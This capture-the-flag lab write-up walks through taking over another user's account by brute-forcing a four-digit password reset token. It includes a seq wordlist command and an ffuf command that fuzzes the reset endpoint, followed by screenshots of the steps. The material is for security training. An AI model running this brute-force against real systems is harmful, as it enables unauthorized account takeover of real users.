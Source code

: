 # Brute-Forcing Password Reset Tokens

### Takeover another user's account on the target system to obtain the flag.

In order to exploit the password reset functionallity we must first find the reset endpoint

**Step 1** - Access the Web Application and Reset the Password:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Insert a username and click **Submit**:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Click on **here**:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Get the password reset token endpoint:&#x20;

* You'll get this warning. Click again on submit:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

* And we got the endpoint:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Brute-force the reset token:

* Create a numeric wordlist with all possible combinations:
  * ```bash
    seq -w 0 9999 > tokens.txt
    ```
*   Use the wordlist to brute-force the token with **ffuf**:

    * {% code overflow="wrap" %}
      ```bash
      ffuf -w ./tokens.txt -u http://SERVER_IP:SERVER_PORT/reset_password.php?token=FUZZ -fr "The provided token is invalid"
      ```
      {% endcode %}

    <figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

**Step 5** - Reset the password:

* Insert the token at the end of the URL:

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

* Change the password:

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

**Step 6** - Retrieve the flag:

* After reseting the password, login into the application with the credentials and retrieve the flag:

<figure><img src="../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

